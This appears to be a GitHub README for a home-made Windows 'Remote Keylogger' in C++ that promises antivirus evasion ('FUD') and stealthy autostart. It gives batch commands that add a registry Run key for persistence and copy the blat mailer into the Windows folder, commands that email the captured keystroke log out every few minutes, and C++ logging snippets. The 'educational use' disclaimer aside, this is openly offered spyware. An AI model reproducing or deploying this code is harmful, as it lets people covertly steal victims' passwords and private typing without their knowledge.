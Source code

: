 
<h1 align="center">
  <br>




                                             
                  ,ad8888ba,                       
                 d8"'    `"8b   aa         aa      
                d8'             88         88      
                88          aaaa88aaaa aaaa88aaaa  
                88          """"88"""" """"88""""  
                Y8,             88         88      
                 Y8a.    .a8P   ""         ""      
                  `"Y8888Y"'                       

                                   
                                  
                                  
                                  
                                  
                           
  <br>
  Remote Keylogger
  <br>
</h1>

<h4 align="center">A simple home made keylogger that send logs to your email
.</h4>


<p align="center">
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#credits">Credits</a> •
  <a href="#license">License</a>
</p>

![screenshot](https://www.nevis.net/hubfs/2020/blog/e143-keylogger.gif)

## Key Features

* Autostart on windows login
  - You need to bind the file or make a setup. Also you can create a ghost process.
* FUD not detected by antivirus software. 
* Create a .txt log file, easy to send.
* Log all keys, simbols, space and mouse click.
* Sent to you a copy of the log periodically to your email.



## How To Use

You can build the project using Visual Studio or DevC++ (free), then you need to insert additional tools in the same foldere of the .exe launcher file, or you can use the prebuild exe in the repository. Check out the code to change the file paths needed for some features

Mandatory: Edit the batch file!

With this code you can create windows register file for create an autostart ghost process on windows login. Change the path with your file name
```batch
Reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /t REG_SZ /d "C:\\lancio.exe\" /f

```

If you want you can change the directory 

```batch
@COPY blat.exe C:\WINDOWS\blat.exe
@COPY blat.dll C:\WINDOWS\blat.dll
@COPY blat.lib C:\WINDOWS\blat.lib

```

Insert your email server and email address, change the timeout if you want
```batch

@blat -install out.alice.it yourmail@alice.it
cls
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 15
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 600

```
You can change the log file name in the main file

```C++
void WriteToLog(LPCSTR text) {
 ofstream logfile;
 logfile.open("keylogs.txt", fstream::app);
 logfile << text;
 logfile.close();
}
```
Delete the case option if you don't need to track mouse click or space for example

```C++
bool KeyIsListed(int iKey) {
 switch (iKey)
 {
 case VK_SPACE:
  cout << " ";
  WriteToLog(" ");
  break;
 case VK_RETURN:
  cout << "/n";
  WriteToLog("/n");
  break;
 case VK_SHIFT:
  cout << " Shift ";
  WriteToLog(" Shift ");
  break;
 case VK_BACK:
  cout << "/b";
  WriteToLog("/b");
  break;
 case VK_RBUTTON:
  cout << " rclick ";
  WriteToLog(" rclick ");
  break;
 case VK_LBUTTON:
  cout << " lclick ";
  WriteToLog(" lclick ");
  break;
 default: return FALSE;
 }
```

> **Note**
> You can use temporany email too


## Credits

Russo Giovanni M.

Use it for educational or legal purposes only

## License

MIT

---

